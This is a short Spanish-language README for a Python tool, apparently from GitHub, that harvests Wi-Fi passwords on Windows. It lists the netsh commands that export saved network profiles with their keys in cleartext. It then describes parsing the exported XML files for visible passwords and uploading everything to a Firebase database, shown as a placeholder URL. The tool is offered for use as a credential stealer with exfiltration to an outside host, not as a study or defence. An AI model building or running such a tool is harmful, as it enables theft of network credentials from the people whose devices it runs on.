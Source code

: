 # Python-Wi-Fi
Obtener contraseñas Wi-Fi

Al archivo WiFi.py ejecuta los comandos en la consola de windows
```
netsh wlan show profile
```
```
netsh wlan show networks
```
```
netsh wlan export profile key=clear
```


Lo que deja ver las ###redes wifi _guardadas en el dispositivo_ en el que se ejecuta el programa.
Después crea un archivo .xml por cada wifi, el programa encuentra en ese archivo las redes que tienen la contraseña visible y pasa toda esa informacion a una base de datos de firebase.

```python
db = firebase.FirebaseApplication('DATABASE URL')
```
### Ejemplo:
```python
db = firebase.FirebaseApplication('DATABASE URL')
```
